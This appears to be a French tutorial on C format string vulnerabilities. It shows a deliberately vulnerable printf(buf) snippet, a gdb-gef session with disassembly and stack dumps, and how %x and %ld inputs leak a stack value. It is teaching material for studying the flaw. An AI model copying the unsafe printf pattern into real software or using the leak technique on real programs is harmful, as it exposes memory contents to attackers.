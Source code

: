 # Format String 

Pour illustrer, prenons un exemple simple et essayons d'afficher la valeur de `secret`

```c
long secret = rand();
char buf[64];

printf("Votre nom: ");
fgets(buf, sizeof(buf), stdin);
printf("Bonjour, ");
printf(buf);
```

Regardons si un leak est possible

```bash
└─$ ./printf-leak
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 359a06bf 4
```

Ouvrons gdb-gef et mettons un break juste apres le printf de notre buffer, pour voir à quoi correspondent les leaks

```sh
└─$ gdb printf-leak

# ...

gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401146 <+0>:	push   rbp
   0x0000000000401147 <+1>:	mov    rbp,rsp
   0x000000000040114a <+4>:	sub    rsp,0x50
   0x000000000040114e <+8>:	call   0x401050 <rand@plt>
   0x0000000000401153 <+13>:	cdqe
   0x0000000000401155 <+15>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401159 <+19>:	lea    rax,[rip+0xea4]        # 0x402004
   0x0000000000401160 <+26>:	mov    rdi,rax
   0x0000000000401163 <+29>:	mov    eax,0x0
   0x0000000000401168 <+34>:	call   0x401030 <printf@plt>
   0x000000000040116d <+39>:	mov    rdx,QWORD PTR [rip+0x2ebc]        # 0x404030 <stdin@GLIBC_2.2.5>
   0x0000000000401174 <+46>:	lea    rax,[rbp-0x50]
   0x0000000000401178 <+50>:	mov    esi,0x40
   0x000000000040117d <+55>:	mov    rdi,rax
   0x0000000000401180 <+58>:	call   0x401040 <fgets@plt>
   0x0000000000401185 <+63>:	lea    rax,[rip+0xe84]        # 0x402010
   0x000000000040118c <+70>:	mov    rdi,rax
   0x000000000040118f <+73>:	mov    eax,0x0
   0x0000000000401194 <+78>:	call   0x401030 <printf@plt>
   0x0000000000401199 <+83>:	lea    rax,[rbp-0x50]
   0x000000000040119d <+87>:	mov    rdi,rax
   0x00000000004011a0 <+90>:	mov    eax,0x0
   0x00000000004011a5 <+95>:	call   0x401030 <printf@plt>
   0x00000000004011aa <+100>:	mov    eax,0x0
   0x00000000004011af <+105>:	leave
   0x00000000004011b0 <+106>:	ret
End of assembler dump.
gef➤  
```

Ici on peut voir que le printf de notre buffer se trouve à `main+95` donc mettons notre break juste apres et lançons le 

```sh
gef➤  b *main+100
Breakpoint 1 at 0x4011aa
gef➤  run
Starting program: /[...]/printf-leak 
#...
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 4056bf 4
```

Si on affiche la stack, regardons à quoi ces valeurs correspodent

```sh
gef➤  hexdump byte $sp -s 240
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
0x00007fffffffdb80     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb90     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 67 45 8b 6b 00 00 00 00    ........gE.k....
0x00007fffffffdbc0     01 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 46 11 40 00 00 00 00 00    ........F.@.....
0x00007fffffffdbe0     40 00 40 00 01 00 00 00 d8 dc ff ff ff 7f 00 00    @.@.............
0x00007fffffffdbf0     d8 dc ff ff ff 7f 00 00 3b 7a 00 15 7f 0d 01 d2    ........;z......
0x00007fffffffdc00     00 00 00 00 00 00 00 00 e8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc10     00 d0 ff f7 ff 7f 00 00 f0 3d 40 00 00 00 00 00    .........=@.....
0x00007fffffffdc20     3b 7a a2 a2 80 f2 fe 2d 3b 7a 42 4f c4 e2 fe 2d    ;z.....-;zBO...-
0x00007fffffffdc30     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdc40     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc50     01 00 00 00 00 00 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
```

Rien n'apparait, regardons plus haut dans la stack

```sh
gef➤  hexdump byte $sp-224 -s 240
0x00007fffffffda90     30 00 00 00 30 00 00 00 70 db ff ff ff 7f 00 00    0...0...p.......
0x00007fffffffdaa0     b0 da ff ff ff 7f 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
0x00007fffffffdab0     00 00 00 00 00 00 00 00 42 6f 6e 6a 6f 75 72 2c    ........Bonjour,
0x00007fffffffdac0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdad0     bf 56 40 00 00 00 00 00 04 00 00 00 00 00 00 00    .V@.............
0x00007fffffffdae0     00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdaf0     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdb00     e0 88 f9 f7 ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb10     70 db ff ff ff 7f 00 00 00 d0 ff f7 ff 7f 00 00    p...............
0x00007fffffffdb20     f0 3d 40 00 00 00 00 00 0a ea e2 f7 ff 7f 00 00    .=@.............
0x00007fffffffdb30     40 00 00 00 00 00 00 00 34 56 df f7 ff 7f 00 00    @.......4V......
0x00007fffffffdb40     ff ff ff ff 67 45 8b 6b d8 dc ff ff ff 7f 00 00    ....gE.k........
0x00007fffffffdb50     c0 db ff ff ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb60     e8 dc ff ff ff 7f 00 00 aa 11 40 00 00 00 00 00    ..........@.....
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
```

On peut alors voir notre `4056bf`, suivi du `04`.
Un peu plus haut le `6a6e6f42`.

Comme expliqué, le `%x` affiche les valeurs sur 4 octets donc par exemple il est impossible de récupérer `2c72756f` sans faire de `%lx`, le `l` permettant d'afficher les valeurs en 8 octets bits.

Donc pour revenir à notre exemple:
`0x..dab8` -> `6a6e6f42`
`0x..dac0` -> `0`
`0x..dac8` -> `0`
`0x..dad0` -> `4056fb`
`0x..dad8` -> `4`

Comme repéré precedement, notre `secret` se trouve en `$rbp-0x8` or `$rbp` vaut `$rbp   : 0x00007fffffffdbc0` donc notre secret est ici stocké en `0x..dbb8` ce qui correspond à notre premier %x !
Or, le secret est un `long` donc 8 octets, il suffit donc d'utiliser `%ld` pour afficher la premiere valeur sur 8 octets sous forme d'entier.